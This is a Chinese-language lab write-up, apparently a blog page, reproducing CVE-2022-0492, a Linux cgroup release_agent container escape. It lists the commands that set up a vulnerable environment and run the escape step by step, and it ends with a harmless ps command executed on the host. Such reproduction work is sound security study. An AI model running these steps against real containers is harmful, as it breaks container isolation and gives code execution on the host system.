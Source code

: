```yaml
---
title: CVE-2022-0492
---
```


<center><h1>CVE-2022-0492</h1><b>本文作者：一生热爱</b><br><br></center>

---

## 一、简介

当容器没有开启额外安全措施时，获得容器内root 权限即可逃逸到宿主机  

漏洞产品: linux kernel - cgroup  

## 二、环境搭建

```bash
git clone https://github.com/brant-ruan/metarget.git
cd metarget/
pip3 install -r requirements.txt
./metarget cnv install cve-2022-0492
```

查看安装的内核版本

<img width="800" src="/img/Snipaste_2022-07-07_21-17-28.png">

## 三、漏洞利用

> 带有 sys_admin 启动 Docker， 关闭 apparmor（否则无法 mount）

```bash
docker run --rm -it --cap-add=SYS_ADMIN --security-opt="apparmor=unconfined" ubuntu:20.04 /bin/bash 
```

上面是带有 CAP_SYS_ADMIN 权限的 Docker ，看网上文章不带有 SYS_ADMIN 权限并关闭所有安全防护的 Docker 也是能进行漏洞利用的，但是我并没有成功，进行mount 的时候不会加载 release_agent

进入 Docker 内部，执行如下命令，挂载 cgroup

```bash
mkdir /tmp/testcgroup
mount -t cgroup -o memory cgroup /tmp/testcgroup
mkdir /tmp/testcgroup/x
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
```

修改 release_agent 触发逃逸，将 notify_on_release 设置为1，开启 task 进程清空后执行 release_agent 功能

```bash
echo 1 > /tmp/testcgroup/x/notify_on_release
```

创建 release_agent 触发时执行的文件

```bash
touch /cmd
echo '#!/bin/sh' > /cmd
echo "ps -ef >> $host_path/result"  >> /cmd
chmod 777 /cmd
```

修改release_agent ，指向 cmd 文件在宿主机中的路径（上面已经获取了容器根目录在宿主机中的路径）

```bash
echo "$host_path/cmd" > /tmp/testcgroup/release_agent
```

接下来向 x cgroup 节点中输入一个任务，将自己所属的 sh 的pid 写入 cgroup.procs

```bash
sh -c "echo \$\$ >  /tmp/testcgroup/x/cgroup.procs"
```

sh 命令只执行了一个 echo 指令，一瞬间就会结束，那么 x cgroup 节点中就 / 没有任何任务了，触发 notify_on_release 执行 release_agent 指向的 /cmd 文件，内核触发，在容器外执行我们指定的命令，完成逃逸，逃逸成功。

<img width="1000" src="/img/Snipaste_2022-07-07_21-17-37.png">

<Vssue />

<script>
export default {
    mounted () {
      this.$page.lastUpdated = "2022年7月7日"
    }
  }
</script>